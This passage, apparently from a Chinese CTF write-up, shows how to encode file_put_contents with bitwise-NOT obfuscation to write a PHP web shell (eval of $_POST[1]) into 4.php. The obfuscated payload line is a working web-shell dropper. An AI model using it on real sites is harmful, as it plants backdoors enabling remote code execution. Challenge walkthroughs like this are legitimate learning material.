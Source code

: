 我们要构造的语句为：file_put_contents('4.php','<?php eval(\$_POST[1]);');构造出来就为：

```php
(~(%99%96%93%9A%A0%8F%8A%8B%A0%9C%90%91%8B%9A%91%8B%8C))(~(%CB%D1%8F%97%8F),~(%C3%C0%8F%97%8F%DF%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%CE%A2%D6%C4));
```

这里要注意的就是要有该目录的写入权限哈